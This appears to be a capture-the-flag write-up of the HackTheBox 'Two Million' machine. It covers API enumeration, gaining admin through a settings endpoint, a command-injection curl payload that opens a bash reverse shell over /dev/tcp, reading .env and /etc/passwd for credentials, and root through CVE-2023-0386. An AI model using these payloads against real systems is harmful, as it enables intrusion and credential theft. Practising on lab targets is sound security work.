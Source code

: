 ```yaml
---
title: "Two Million"
date: 2023-06-27 18:02:00 +0800
categories: [HackTheBox]
tags: [cve, api]
image:
  path: /banners/twomillion.png
---
```




> Description : Two Million is an easy level box which was released because of the celebration of the 2 million user milestone.
{: .prompt-info }



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic1.png" alt="Alt Text">
</a>




## Nmap-scan


First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic2.png" alt="Alt Text">
</a>


We need to include "2million.htb" in our /etc/hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```



## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic3.png" alt="Alt Text">
</a>

While exploring the website, I discovered that I can join the platform by obtaining an invite code.


`http://2million.htb/invite`


I came across a JavaScript code that contains some intriguing elements. 


`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic4.png" alt="Alt Text">
</a>


I am interested in generating my own invite code as well.

I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic6.png" alt="Alt Text">
</a>


After decoding the ROT13 cipher, we discovered the method to generate our own invite code.



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic5.png" alt="Alt Text">
</a>

Since the invite is encoded using base64, it should be easy to obtain one.



```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative



Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.
Fortunately, I have come across some intriguing findings that piqued my interest. "/api/v1"


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```



I will attempt to update my settings



```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```



<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic8.png" alt="Alt Text">
</a>


Great!

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="/twomillion/pic9.png" alt="Alt Text">
</a>

Now that we have identified vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## PrivEsc 

After logging in, I discovered an interesting file named ".env".
(A .env file is typically used to store sensitive information)

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

